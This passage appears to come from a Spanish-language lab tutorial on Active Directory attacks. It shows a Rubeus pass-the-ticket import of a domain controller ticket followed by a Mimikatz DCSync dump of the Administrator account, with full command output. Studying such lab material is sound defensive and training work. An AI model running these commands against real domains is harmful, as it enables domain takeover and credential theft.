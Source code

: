 ```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe ptt /ticket:doIFdDCCBXCgAwIBBa...

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: Import Ticket
[+] Ticket successfully imported!
PS C:\Users\bob\Downloads> klist

Current LogonId is 0:0x101394

Cached Tickets: (1)

#0>     Client: DC1$ @ EAGLE.LOCAL        Server: krbtgt/EAGLE.LOCAL @ EAGLE.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 4/21/2023 8:54:04 (local)
        End Time:   4/21/2023 18:54:04 (local)
        Renew Time: 4/28/2023 8:54:04 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

```

Luego, un ataque DCSYNC se puede ejecutar a través de Mimikatz, esencialmente replicando lo que hicimos en la sección DCSYNC.

Ataques coaccionados y delegación sin restricciones

```powershell
PS C:\Users\bob\Downloads\mimikatz_trunk\x64> .\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com ) ## \ / ##       > https://blog.gentilkiwi.com/mimikatz '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /domain:eagle.local /user:Administrator
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 01/01/1601 02.00.00
Password last change : 07/08/2022 21.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500
```